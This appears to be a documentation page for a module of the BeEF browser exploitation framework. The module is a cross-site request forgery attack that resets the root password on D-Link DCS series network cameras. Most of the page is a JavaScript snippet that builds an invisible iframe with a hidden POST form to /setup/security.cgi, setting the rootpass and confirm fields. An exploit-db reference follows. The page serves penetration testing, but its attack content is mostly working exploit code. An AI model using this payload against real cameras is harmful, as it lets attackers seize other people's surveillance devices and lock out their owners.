 ## Summary

* **Objective**: Attempts to change the password on a Dlink DCS series camera.
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/camera/dlink_dcs_series_csrf)

## Internal Working

Uses an invisible iframe with POST form to change config

```js
  var dlink_dcs_iframe = beef.dom.createInvisibleIframe();

  var form = document.createElement('form');
  form.setAttribute('action', base + "/setup/security.cgi");
  form.setAttribute('method', 'post');

  var input = null;

  input = document.createElement('input');
  input.setAttribute('type', 'hidden');
  input.setAttribute('name', 'rootpass');
  input.setAttribute('value', passwd);
  form.appendChild(input);

  input = document.createElement('input');
  input.setAttribute('type', 'hidden');
  input.setAttribute('name', 'confirm');
  input.setAttribute('value', passwd);
  form.appendChild(input);

  dlink_dcs_iframe.contentWindow.document.body.appendChild(form);

```

## References

https://www.exploit-db.com/exploits/18509/

## Feedback
